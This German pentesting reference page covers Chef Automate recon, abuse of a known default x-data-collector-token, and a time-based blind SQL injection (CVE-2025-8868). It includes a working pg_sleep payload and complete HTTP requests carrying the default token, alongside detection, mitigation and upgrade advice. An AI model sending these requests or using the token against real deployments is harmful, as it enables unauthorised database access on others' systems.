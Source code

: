 # Chef Automate Aufklärung & Angriffe

{{#include ../../banners/hacktricks-training.md}}

## Übersicht

Diese Seite sammelt praktische Techniken, um Chef Automate-Instanzen zu enumerieren und anzugreifen, mit Schwerpunkt auf:
- Aufdecken von REST-Endpunkten, die von gRPC-Gateway bereitgestellt werden, und Ermitteln von Request-Schemata durch Validierungs-/Fehlerantworten
- Missbrauch des Headers x-data-collector-token zur Authentifizierung, wenn Standardwerte vorhanden sind
- Time-based blind SQL injection in der Compliance API (CVE-2025-8868), die das Feld filters[].type in /api/v0/compliance/profiles/search betrifft

> Hinweis: Backend-Antworten, die den Header grpc-metadata-content-type: application/grpc enthalten, deuten typischerweise auf eine gRPC-Gateway-Brücke von REST-Aufrufen zu gRPC-Services hin.

## Recon: Architektur und Fingerabdrücke

- Front-end: Oft Angular. Statische Bundles können auf REST-Pfade hinweisen (z. B. /api/v0/...)
- API-Transport: REST zu gRPC via gRPC-Gateway
- Antworten können grpc-metadata-content-type: application/grpc enthalten
- Datenbank-/Treiber-Fingerprints:
- Fehlerkörper, die mit pq: beginnen, deuten stark auf PostgreSQL mit dem Go pq-Driver hin
- Interessante Compliance-Endpunkte (Auth erforderlich):
- POST /api/v0/compliance/profiles/search
- POST /api/v0/compliance/scanner/jobs/search

## Auth: Data Collector Token (x-data-collector-token)

Chef Automate stellt einen Data Collector bereit, der Requests über einen dedizierten Header authentifiziert:

- Header: x-data-collector-token
- Risiko: In einigen Umgebungen kann ein Default-Token erhalten bleiben, das Zugriff auf geschützte API-Routen gewährt. Bekannter Standardwert, der in freier Wildbahn beobachtet wurde:
- 93a49a4f2482c64126f7b6015e6b0f30284287ee4054ff8807fb63d9cbd1c506

Ist dieses Token vorhanden, kann es verwendet werden, um Compliance-API-Endpunkte aufzurufen, die ansonsten durch Auth geschützt sind. Versuchen Sie beim Härten immer, Default-Werte zu rotieren/deaktivieren.

## API-Schema-Ermittlung via fehlergetriebener Discovery

gRPC-Gateway-backed Endpunkte leak oft nützliche Validierungsfehler, die das erwartete Request-Modell beschreiben.

Für /api/v0/compliance/profiles/search erwartet das Backend einen Body mit einem filters-Array, wobei jedes Element ein Objekt mit folgenden Feldern ist:

- type: string (Filterfeld-Identifier)
- values: array of strings

Beispielhafte Request-Struktur:
```json
{
"filters": [
{ "type": "name", "values": ["test"] }
]
}
```
Fehlerhaftes JSON oder falsche Feldtypen lösen typischerweise 4xx/5xx-Antworten mit Hinweisen aus, und Header zeigen das Verhalten des gRPC-Gateway an. Nutze diese, um Felder zuzuordnen und injection surfaces zu lokalisieren.

## Compliance API SQL Injection (CVE-2025-8868)

- Betroffener Endpoint: POST /api/v0/compliance/profiles/search
- Injection point: filters[].type
- Schwachstellenklasse: time-based blind SQL injection in PostgreSQL
- Ursache: Fehlende ordnungsgemäße parameterization/whitelisting beim Interpolieren des type field in ein dynamisches SQL-Fragment (wahrscheinlich verwendet, um identifiers/WHERE clauses zu konstruieren). Manipulierte Werte im type werden von PostgreSQL ausgewertet.

- Funktionierendes time-based payload:
```json
{"filters":[{"type":"name'||(SELECT pg_sleep(5))||'","values":["test"]}]}
```
Technique notes:
- Schließe den ursprünglichen string mit einem single quote
- Hänge eine subquery an, die pg_sleep(N) aufruft
- Tritt mittels || wieder in den string-Kontext ein, sodass das finale SQL syntaktisch gültig bleibt, unabhängig davon, wo type eingebettet ist

### Nachweis durch differentielle Latenz

Sende gepaarte requests und vergleiche die Antwortzeiten, um server-side execution zu validieren:

- N = 1 Sekunde
```
POST /api/v0/compliance/profiles/search HTTP/1.1
Host: <target>
Content-Type: application/json
x-data-collector-token: 93a49a4f2482c64126f7b6015e6b0f30284287ee4054ff8807fb63d9cbd1c506

{"filters":[{"type":"name'||(SELECT pg_sleep(1))||'","values":["test"]}]}
```
- N = 5 Sekunden
```
POST /api/v0/compliance/profiles/search HTTP/1.1
Host: <target>
Content-Type: application/json
x-data-collector-token: 93a49a4f2482c64126f7b6015e6b0f30284287ee4054ff8807fb63d9cbd1c506

{"filters":[{"type":"name'||(SELECT pg_sleep(5))||'","values":["test"]}]}
```
Beobachtetes Verhalten:
- Antwortzeiten skalieren mit pg_sleep(N)
- HTTP-500-Antworten können während des Probes pq:-Details enthalten, was auf ausgeführte SQL-Pfade hinweist

> Tipp: Verwende einen Timing-Validator (z. B. mehrere Durchläufe mit statistischem Vergleich), um Rauschen und False Positives zu reduzieren.

### Auswirkung

Authentifizierte Benutzer — oder nicht authentifizierte Akteure, die einen Standard-x-data-collector-token missbrauchen — können beliebiges SQL im PostgreSQL-Kontext von Chef Automate ausführen und so die Vertraulichkeit und Integrität von Compliance-Profilen, Konfiguration und Telemetrie gefährden.

### Betroffene Versionen / Behebung

- CVE: CVE-2025-8868
- Upgrade-Empfehlung: Chef Automate 4.13.295 oder neuer (Linux x86) laut Herstellerhinweisen

## Erkennung und Forensik

- API-Ebene:
- Überwache 500s auf /api/v0/compliance/profiles/search, wenn filters[].type Anführungszeichen ('), Konkatenation (||) oder Funktionsreferenzen wie pg_sleep enthält
- Prüfe Response-Header auf grpc-metadata-content-type, um gRPC-Gateway-Flows zu identifizieren
- Datenbank-Ebene (PostgreSQL):
- Prüfe auf pg_sleep-Aufrufe und auf Fehler durch fehlerhafte Identifier (oft mit pq:-Präfixen, die vom Go pq driver kommen)
- Authentifizierung:
- Protokolliere und alarmiere bei Verwendung von x-data-collector-token, insbesondere bekannter Standardwerte, über API-Pfade hinweg

## Abmilderungen und Härtung

- Sofortmaßnahmen:
- Standard-Data-Collector-Tokens rotieren/deaktivieren
- Eingehenden Zugriff auf Data-Collector-Endpunkte beschränken; starke, eindeutige Tokens erzwingen
- Code-Ebene:
- Queries parameterisieren; niemals SQL-Fragmente per String-Konkatenation zusammenfügen
- Zulässige type-Werte auf dem Server strikt per Whitelist einschränken (enum)
- Dynamische SQL-Zusammenstellung für Identifier/Klauseln vermeiden; falls dynamisches Verhalten erforderlich ist, sicheres Identifier-Quoting und explizite Whitelists verwenden

## Praktische Test-Checkliste

- Prüfe, ob x-data-collector-token akzeptiert wird und ob der bekannte Standardwert funktioniert
- Kartiere das Compliance API Request-Schema, indem du Validierungsfehler provozierst und Fehlermeldungen/Headers ausliest
- Teste auf SQLi in weniger offensichtlichen „identifier-like“ Feldern (z. B. filters[].type), nicht nur in Werte-Arrays oder top-level Textfeldern
- Verwende zeitbasierte Techniken mit Konkatenation, um SQL kontextübergreifend syntaktisch gültig zu halten

## Referenzen

- [Cooking an SQL Injection Vulnerability in Chef Automate (XBOW blog)](https://xbow.com/blog/cooking-an-sql-injection-vulnerability-in-chef-automate)
- [Timing trace (XBOW)](https://xbow-website.pages.dev/traces/chef-automate-sql-injection/)
- [CVE-2025-8868](https://www.cve.org/CVERecord?id=CVE-2025-8868)
- [gRPC-Gateway](https://github.com/grpc-ecosystem/grpc-gateway)
- [pq PostgreSQL driver for Go](https://github.com/lib/pq)

{{#include ../../banners/hacktricks-training.md}}
